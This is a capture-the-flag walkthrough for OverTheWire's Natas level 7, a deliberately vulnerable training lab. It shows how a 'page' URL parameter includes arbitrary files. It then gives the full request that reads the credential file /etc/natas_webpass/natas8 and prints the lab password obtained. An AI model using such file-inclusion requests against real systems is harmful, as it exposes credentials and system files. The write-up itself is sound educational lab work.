

# Level 6-7

LINK : http://natas7.natas.labs.overthewire.org/



On clicking About, URL changes to :

http://natas7.natas.labs.overthewire.org/index.php?page=about

Handling this via parameter leads to lot of vulnerabilities, if not handled well

Let's try something random 
http://natas7.natas.labs.overthewire.org/index.php?page=qweqweqwe


​	in html we see a hint

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

- Here it includes the file name we pass in get param

- Thus passing http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

  would give you the secret
  DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

